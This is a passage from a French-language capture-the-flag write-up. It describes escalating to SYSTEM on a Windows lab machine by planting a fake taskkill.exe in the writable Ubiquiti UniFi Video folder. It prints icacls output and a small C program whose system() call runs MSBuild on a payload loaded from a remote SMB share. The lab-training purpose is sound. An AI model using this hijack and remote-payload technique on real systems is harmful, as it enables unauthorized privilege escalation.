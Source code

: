 On obtient une session Meterpreter en x86 mais whatever puisque pour une fois *migrate* fonctionne et on peut passer sur un process x64 :)   

Got root(.txt)
--------------

Malheureusement on ne trouve pas grand chose à se mettre sous la dent en terme d'escalade de privilèges.  

Il y a tout de même un mystérieux fichier *unifivideo* présent dans le dossier *Documents* de l'utilisateur qui est probablement un indice pour nous mener à [cette vulnérabilité](https://seclists.org/fulldisclosure/2017/Dec/83) affectant le service *Ubiquiti UniFi Video*.  

Les conditions semblent être bonnes avec le dossier écrivable dans *ProgramData* :  

```plain
c:\programdata>icacls unifi-video
icacls unifi-video
unifi-video NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
            BUILTIN\Administrators:(I)(OI)(CI)(F)
            CREATOR OWNER:(I)(OI)(CI)(IO)(F)
            BUILTIN\Users:(I)(OI)(CI)(RX)
            BUILTIN\Users:(I)(CI)(WD,AD,WEA,WA)

Successfully processed 1 files; Failed processing 0 files
```

Et la présence du fameux service :  

```plain
PS C:\ProgramData\unifi-video>
Get-Service -Name "Ubiquiti UniFi Video"

Status   Name               DisplayName
------   ----               -----------
Stopped  UniFiVideoService  Ubiquiti UniFi Video
```

Le principe de la vulnérabilité est le suivant : au lancement ou à l'arrêt du service l'exécutable *taskkill* est exécuté (certainement pour tuer les instances existantes du service) sauf qu'il est cherché dans le dossier *unifi-video* au lieu d'aller directement le prendre là où il est (*system32* je suppose).  

Du coup il suffit d'y placer un exécutable à nous et stopper / lancer le service. Pas de prise de tête avec l'antivirus j'ai fait un simple programme (cross-compilé depuis Kali) qui réutilise MSBuild et notre fichier csproj précédent :  

```c
$ cat test.c
#include <unistd.h>

int main(void) {
    system("c:\\windows\\Microsoft.NET\\Framework\\v4.0.30319\\MSBuild.exe  \\\\10.10.13.82\\public\\msbuild_nps.xml");
    return 0;
}
$ i686-w64-mingw32-gcc -o taskkill.exe test.c
```
